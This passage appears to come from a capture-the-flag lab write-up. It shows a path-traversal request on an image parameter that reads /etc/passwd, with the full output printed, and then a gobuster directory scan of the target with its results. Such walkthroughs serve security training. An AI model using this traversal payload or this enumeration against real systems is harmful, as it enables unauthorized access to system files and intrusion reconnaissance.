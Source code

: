 There's an LFI vulnerability here.

```
$ curl http://10.129.178.113:8080/show_image?img=../../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
frank:x:1000:1000:frank:/home/frank:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
phil:x:1001:1001::/home/phil:/bin/bash
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
_laurel:x:997:996::/var/log/laurel:/bin/false
```

Two users `frank` and `phil` are on the machine. Running a `gobuster` scan, this is what we find:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -u http://10.129.178.113:8080 -t 100
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.178.113:8080
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/03/11 22:36:35 Starting gobuster in directory enumeration mode
===============================================================
/register             (Status: 200) [Size: 5654]
/blogs                (Status: 200) [Size: 5371]
```